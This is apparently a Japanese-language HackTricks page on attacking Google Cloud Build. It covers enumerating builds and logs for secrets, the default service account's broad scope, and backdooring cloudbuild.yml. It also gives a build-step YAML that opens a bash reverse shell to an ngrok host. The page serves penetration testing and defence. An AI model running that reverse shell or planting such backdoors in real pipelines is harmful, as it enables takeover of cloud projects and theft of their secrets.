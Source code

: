 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Google Cloud Buildは、**ソフトウェアビルド**とリリースプロセスを自動化する管理されたCI/CDプラットフォームであり、**ソースコードリポジトリ**と統合し、幅広いプログラミング言語をサポートしています。開発者がコードを自動的にビルド、テスト、デプロイすることを可能にしながら、ビルドステップとワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連しているか、直接外部リポジトリ**（Github、Bitbucket、Gitlab）に接続されています。

Cloud Buildを設定して**ビルド実行に承認を要求する**ことが可能です（デフォルトでは無効）。

**サービスアカウントは`cloud-platform`スコープを持っており**、**すべての権限を使用できます。** **SAが指定されていない場合**（例えばsubmitを行うとき）、**デフォルトのSA** `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます。**

{% hint style="success" %}
ここやCloudリポジトリからGithub/Bitbucketトークンを盗む方法は見つけられませんでした。なぜならリポジトリがダウンロードされるときには[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされないからです。
{% endhint %}

### ストレージ

時々、Cloud Buildは**トリガーのファイルを保存するために新しいストレージを生成します**。これは例えば、GCPが提供する例で次のような場合に発生します：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

Storageバケットとして[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)が作成され、使用するファイルが含まれた`.tgz`を保存します。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

ビルド設定とログに**機密情報**が見つかる可能性があります。
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## 権限昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

### cloudbuild.yml

リポジトリの書き込み権限を侵害し、**`cloudbuild.yml`** という名前のファイルが含まれている場合、このファイルに**バックドア**を仕掛けることができます。このファイルは Cloud Build 内で**実行されるコマンドを指定しており**、秘密情報を**漏洩**させたり、行われていることを侵害したり、**Cloud Build サービスアカウント**を侵害することもできます。

{% hint style="info" %}
GCPには、管理者が外部PRからのビルドシステムの実行を制御するオプションがあることに注意してください。"Comment Control"は、コラボレーターやプロジェクトオーナーがPRに対してビルドをトリガーするために**「/gcbrun」とコメントする必要がある**機能です。この機能を使用することで、インターネット上の誰もがビルドシステムをトリガーすることを本質的に防ぐことができます。
{% endhint %}

関連情報については、Github Actionsの攻撃方法に関するページを参照してください（これに似ています）：

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
